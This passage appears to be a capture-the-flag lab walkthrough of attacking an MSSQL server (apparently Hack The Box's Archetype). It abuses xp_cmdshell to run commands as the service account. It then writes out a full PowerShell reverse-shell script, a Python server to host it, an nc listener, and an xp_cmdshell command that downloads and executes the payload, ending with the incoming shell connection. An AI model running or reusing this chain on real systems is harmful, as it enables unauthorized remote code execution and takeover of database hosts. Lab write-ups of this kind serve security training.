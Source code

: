 	two digit year cutoff                        1753          9999           2049          2049   

	user connections                                0         32767              0             0   

	user options                                    0         32767              0             0   

	xp_cmdshell                                     0             1              1             1 



// we can see in the end that we can use 'xp_cmdshell' lets try this


	SQL> xp_cmdshell "whoami"
	output                                                                             

	--------------------------------------------------------------------------------   

	archetype\sql_svc                                                                  

	NULL   


// Awesome! we can intercat with Host, now We will use powershell to download powershell(.ps1) payload, First we will make the payload file, great site for generate reverse powershell script ![here](https://www.revshells.com/)


	$ cat shell.ps1 
-----

	$client = New-Object System.Net.Sockets.TCPClient("10.10.16.7",443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "# ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()


// Now will we open http server using python for upload the file


	$ sudo python3 -m http.server 1444
	Serving HTTP on 0.0.0.0 port 1444 (http://0.0.0.0:1444/) ...


// And open a listiner on port 443


	$ sudo rlwrap nc -lvnp 443
	listening on [any] 443 ...


// Now when all set we can transfer the shell.ps1 payload to targeted machine and execute


	SQL> xp_cmdshell "powershell "IEX (New-Object Net.WebClient).DownloadString(\"http://10.10.16.7:1444/shell.ps1\");"


// We have a shell !!!


	$ sudo rlwrap nc -lvnp 443
	[sudo] password for kali: 
	listening on [any] 443 ...
	connect to [10.10.16.7] from (UNKNOWN) [10.10.10.27] 49687
